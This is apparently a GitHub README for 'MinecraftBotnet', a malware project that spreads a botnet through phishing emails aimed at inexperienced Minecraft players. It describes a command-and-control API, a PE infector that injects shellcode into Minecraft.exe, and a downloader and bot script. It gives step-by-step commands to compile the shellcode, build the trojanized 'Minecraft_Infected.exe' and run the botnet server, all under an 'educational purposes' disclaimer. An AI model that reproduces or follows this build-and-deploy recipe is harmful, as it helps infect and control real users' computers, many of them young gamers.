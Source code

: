 # MALW-MinecraftBotnet

MinecraftBotnet is a project developed to create an automated botnet which propagates through phishing emails. The target audience would be unexperienced users that play Minecraft.

> [!CAUTION]
> **DISCLAIMER: This project was made for educational purposes. We are not responsible for the use you give it.**

## Structure

This project was divided in 5 sections that focuses in different aspects of the botnet.

1. [API](/API/): Simple webserver API which will provide all available files to be downloaded and schedule each machine, inside the botnet, to execute the desired tasks.
1. [InfectPE](/InfectPE/): This folder contains a self-version program which allows to inject shellcode into any executable via the creation of a new section. Original version [InfectPE](https://github.com/secrary/InfectPE).
1. [Malware](/Malware/): Main program that executes in the victim's computer.
1. [Payload](/Payload/): The shellcode script that will be injected into the executable, and another c++ script that will be downloaded by the shellcode, in charge of setting up the malware in the victim's computer.
1. [Scripts](/Scripts/): This folder contains the task that is executed by the malware.

## Instructions:

### Compiling shellcode and mainDownloader
Maindownloader:

- `$ cd /Payload`
- `$ gcc -m32 MainDownloader.c -o MainDownloader.exe -lurlmon`
- Now, you can place the generated executable inside [API downloads folder](/API/downloads).


Payload (shellcode):
* `$ cd /Payload`
* `$ ./ShellcodeCompiler_x64.exe -r payload.cpp -a _assembly.asm -p win_x86`
* Inside the generated file `_assembly.asm` you must manually modify the assembly instruction to fix a bug. You must replace the instruction `mov eax, fs:[ecx + 0x30]` with `mov eax, [fs:ecx + 0x30]`.
* `$ nasm -g -f win32 _assembly.asm -o _assembly.o`
* `$ C:/MinGW/bin/ld.exe -g -mi386pe _assembly.o -o _assembly.exe`
>
* `$ objdump -d _assembly.exe`
  * ¡Gitbash required or any alternative! *See tmp.txt file to see the desired output
* Paste the .text section inside tmp.txt file
* `$ python dumpShellcode.py tmp.txt`

> [!TIP]
> You can use any other alternative to ouput the shellcode from an excutable.

> [!WARNING]
> We have encountered several errors with the gcc distribution. To compile the MainDownloader, we have used the `LLVM` distribution; however, for the shellcode part we have used `MinGW`.

> [!IMPORTANT]
> You will need gcc for mutiplatform (32 bits) and nasm installed.

### Compiling the tasks
* `$ cd /Scripts`
* `$ python -m PyInstaller --onefile --noconsole times.py`
* Now, you can place the generated executable inside [API downloads folder](/API/downloads).

> [!IMPORTANT]
> You will need python installed with the module PyInstaller.

### Compiling the malware
* `$ cd /Malware`
* `$ python -m PyInstaller --onefile --noconsole botScript.py`
* Now, you can place the generated executable inside [API downloads folder](/API/downloads).

> [!IMPORTANT]
> You will need python installed with the module PyInstaller.

### Infecting the Minecraft executable
* Paste the shellcode generated previously inside the file `infectPE.cpp` - `char shellcode[] =`.
>
* `$ g++ -c PE.cpp -std=c++17`
* `$ g++ -c InfectPE.cpp -std=c++17`
* `$ g++ -o InfectPE.exe InfectPE.o PE.o`
* `$ ./InfectPE.exe ./Minecraft/Minecraft.exe ./Minecraft/Minecraft_Infected.exe`
* Now, you can place `./Minecraft/Minecraft_Infected.exe` inside [API downloads folder](/API/downloads).

## Running the Botnet server:
Before starting the server, remember to change the IP address depending on how you setup the network or the server itself (you could use directly `0.0.0.0:80`) inside `/API/BotnetAPI.py`.
> [!IMPORTANT]
> Keep in mind, that changing the IP implies changing the following files: payload.cpp, MainDownloader.c, botScript.py, and BotnetAPI.py. In addition, changing the payload and the MainDownloader involves translating to asm, compiling, and replacing the shellcode string again in infectPE.cpp. 

* `$ cd /API`
* `$ pip install -r requirements.txt`
* `$ python BotnetAPI.py`

> [!IMPORTANT]
> You will need python installed.

> [!TIP]
> Theoretically, you can deploy this API to docker; however, it was not tested for this project.

## Considerations

As the configuration varies from one computer/VM to another, the IP's may vary as well. For that reason, you should replace any IP from the Payload, MainDownloader or Malware scripts.
